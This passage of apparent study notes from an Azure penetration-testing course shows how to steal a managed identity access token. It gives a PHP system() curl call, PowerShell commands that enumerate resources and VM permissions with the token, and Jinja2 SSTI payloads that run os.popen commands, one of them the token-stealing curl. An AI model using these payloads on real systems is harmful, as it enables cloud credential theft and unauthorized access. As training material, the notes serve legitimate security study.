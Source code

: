 Get the access token:
```php
<?php 
  system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```


Check the resources available to the managed identity (using the access token and client ID):
```powershell
$token = 'eyJ0eX...'
Connect-AzAccount -AccessToken $token -AccountId <clientID>
Get-AzResource
```

Check the permissions of the managed identity on the virtual machine:
```powershell
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'
$RequestParams = @{
    Method = 'GET'
    Uri = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod @RequestParams).value
```

> [Note] There should be no need to use the above code. **Get-AzRoleAssignment** gives the correct result in case a users token is used but throws an error in case the token of a managed identity is used.


#### SSTI and Command Injection

- SSTI allows an attacker to abuse template syntax to inject payloads in a template that is executed on the server side
- with OS Command Injection is possible to run arbitrary operating system commands on the server where requests are processed

> let's not waste time, this is not web app class.. both works the same, at the end we will run commands, get tokens and access something

Just a remark. 

In the course they use this payload (Dont forget to add the double bracets *\{\{ payload \}\}* ):
```python 
config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()
```

But I used this one because I found it easier:
```python 
cycler.__init__.__globals__.os.popen('whoami').read() 
```
